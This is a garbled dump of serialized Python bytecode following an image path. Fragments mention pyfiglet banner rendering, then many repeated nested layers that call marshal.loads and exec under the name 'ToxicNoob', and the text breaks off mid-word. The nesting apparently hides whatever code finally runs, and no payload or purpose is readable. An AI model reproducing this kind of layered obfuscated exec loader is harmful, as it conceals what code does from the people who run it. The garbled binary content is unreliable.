 \x14Q8\x03\xd17\x01Q8\x03\xd1;\x14R\x13\x03\xd2\x12\x01R\x13\x03\xd2\x16\x14R.\x03\xd2-\x01R.\x03\xd26\x14S\x0e\x03\xd3\r\x01S\x0e\x03\xd3\x16\x1dT\x0b\x03\xd33\x0eT\x06\x03\xd4\x06\x05T\x0b\x03\xda\x08__main__)\x01rg\x00\x00\x00)\x17r*\x00\x00\x00r\x07\x00\x00\x00r\x19\x00\x00\x00r\x18\x00\x00\x00r,\x00\x00\x00\xda\x08pyfigletrQ\x00\x00\x00r\r\x00\x00\x00r7\x00\x00\x00\xda\x04NAME\xda\x06Figlet\xda\x0bcustom_font\xda\nrenderTextr\x11\x00\x00\x00r\x14\x00\x00\x00r"\x00\x00\x00r$\x00\x00\x00r3\x00\x00\x00r8\x00\x00\x00rO\x00\x00\x00rU\x00\x00\x00r\x96\x00\x00\x00\xda\x08__name__r\n\x00\x00\x00r\x0b\x00\x00\x00r\x0c\x00\x00\x00\xda\x08<module>r\x9e\x00\x00\x00\x01\x00\x00\x00s\x8b\x00\x00\x00\xf0\x03\x01\x01\x01\xdb\x00\x0f\xdb\x00\t\xdb\x00\n\xdb\x00\x0b\xdb\x00\x0b\xdb\x00\x0f\xdb\x00\t\xf2\x04\x01\x015\xf1\x08\x00\x08\r\xd0\r&\xd3\x07\'\x80\x04\xe0\x0e\x1d\x88h\x8fo\x89o\xa0=\xd4\x0e1\x80\x0b\xd8\x0c\x17\xd7\x0c"\xd1\x0c"\xa04\xd3\x0c(\x80\t\xf2\x04\x07\x01\x10\xf2\x14\x07\x01!\xf2\x14\x06\x01\x1c\xf2\x12\r\x01\x11\xf2 \x0f\x01\x15\xf3$\x16\x01X\x01\xf20\x02\x013\xf2\nA\x03\x01.\xf0F\x06\x00\x04\x0c\x88z\xd2\x03\x19\xd9\x04\x08\x85F\xf0\x03\x00\x04\x1ar\x0b\x00\x00\x00)\x03\xda\x07marshal\xda\x04exec\xda\x05loads\xa9\x00\xf3\x00\x00\x00\x00\xda\tToxicNoob\xda\x08<module>r\t\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xf3\n\x00\x01\x0f\xd9\x00\x04\x80]\x80W\x87]\x81]\xf0\x00\x00\x14Px\x08\xf3\x00\x00\x06Qx\x08\xf5\x00\x00\x01Rx\x08r\x07\x00\x00\x00)\x03\xda\x07marshal\xda\x04exec\xda\x05loads\xa9\x00\xf3\x00\x00\x00\x00\xda\tToxicNoob\xda\x08<module>r\t\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xf3\n\x00\x01\x0f\xd9\x00\x04\x80]\x80W\x87]\x81]\xf0\x00\x00\x14]B\t\xf3\x00\x00\x06^B\t\xf5\x00\x00\x01_B\tr\x07\x00\x00\x00)\x03\xda\x07marshal\xda\x04exec\xda\x05loads\xa9\x00\xf3\x00\x00\x00\x00\xda\tToxicNoob\xda\x08<module>r\t\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xf3\n\x00\x01\x0f\xd9\x00\x04\x80]\x80W\x87]\x81]\xf0\x00\x00\x14gL\t\xf3\x00\x00\x06hL\t\xf5\x00\x00\x01iL\tr\x07\x00\x00\x00)\x03\xda\x07marshal\xda\x04exec\xda\x05loads\xa9\x00\xf3\x00\x00\x00\x00\xda\tToxicNoob\xda\x08<module>r\t\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xf3\n\x00\x01\x0f\xd9\x00\x04\x80]\x80W\x87]\x81]\xf0\x00\x00\x14qV\t\xf3\x00\x00\x06rV\t\xf5\x00\x00\x01sV\tr\x07\x00\x00\x00)\x03\xda\x07marshal\xda\x04exec\xda\x05loads\xa9\x00\xf3\x00\x00\x00\x00\xda\tToxicNoob\xda\x08<module>r\t\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xf3\n\x00\x01\x0f\xd9\x00\x04\x80]\x80W\x87]\x81]\xf0\x00\x00\x14{`\t\xf3\x00\x00\x06|`\t\xf5\x00\x00\x01}`\tr\x07\x00\x00\x00)\x03\xda\x07marshal\xda\x04exec\xda\x05loads\xa9\x00\xf3\x00\x00\x00\x00\xda\tToxicNoob\xda\x08<module>r\t\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xf3\n\x00\x01\x0f\xd9\x00\x04\x80]\x80W\x87]\x81]\xf0\x00\x00\x14Ek\t\xf3\x00\x00\x06Fk\t\xf5\x00\x00\x01Gk\tr\x07\x00\x00\x00)\x03\xda\x07marshal\xda\x04exec\xda\x05loads\xa9\x00\xf3\x00\x00\x00\x00\xda\tToxicNoob\xda\x08<module>r\t\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xf3\n\x00\x01\x0f\xd9\x00\x04\x80]\x80W\x87]\x81]\xf0\x00\x00\x14Lu\t\xf3\x00\x00\x06Mu\t\xf5\x00\x00\x01Nu\tr\x07\x00\x00\x00)\x03\xda\x07marshal\xda\x04exec\xda\x05loads\xa9\x00\xf3\x00\x00\x00\x00\xda\tToxicNoo